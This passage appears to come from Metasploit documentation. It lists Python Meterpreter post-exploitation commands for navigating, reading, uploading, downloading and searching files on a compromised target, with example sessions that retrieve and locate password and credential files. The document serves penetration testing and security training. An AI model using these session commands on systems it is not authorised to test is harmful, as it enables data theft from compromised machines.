 Compare to a native Meterpreter such as windows/meterpreter/reverse_tcp, the Python Meterpreter
has less commands, but here's a list of all the common ones you might need:

**pwd command**

The ```pwd``` command tells you the current working directory. For example:

```
meterpreter > pwd
/Users/sinn3r/Desktop
```

**cd command**

The ```cd``` command allows you to change directories. Example:

```
meterpreter > cd /Users/sinn3r/Desktop
meterpreter > pwd
/Users/sinn3r/Desktop
```

**cat command**

The ```cat``` command allows you to see the content of a file:

```
meterpreter > cat /tmp/data.txt
Hello World!
```

**upload command**

The ```upload``` command allows you to upload a file to the remote target. For example:

```
meterpreter > upload /tmp/data.txt /Users/sinn3r/Desktop
[*] uploading  : /tmp/data.txt -> /Users/sinn3r/Desktop
[*] uploaded   : /tmp/data.txt -> /Users/sinn3r/Desktop/data.txt
meterpreter > 
```

**download command**

The ```download``` command allows you to download a file from the remote target to your machine.
For example:

```
meterpreter > download /Users/sinn3r/Desktop/data.txt /tmp/pass.txt
[*] downloading: /Users/sinn3r/Desktop/data.txt -> /tmp/pass.txt/data.txt
[*] download   : /Users/sinn3r/Desktop/data.txt -> /tmp/pass.txt/data.txt
meterpreter > 
```

**search command**

The ```search``` command allows you to find files on the remote file system. For example,
this shows how to find all text files in the current directory:

```
meterpreter > search -d . -f *.txt
Found 2 results...
    .\pass.txt (13 bytes)
    ./creds\data.txt (83 bytes)
meterpreter >
```
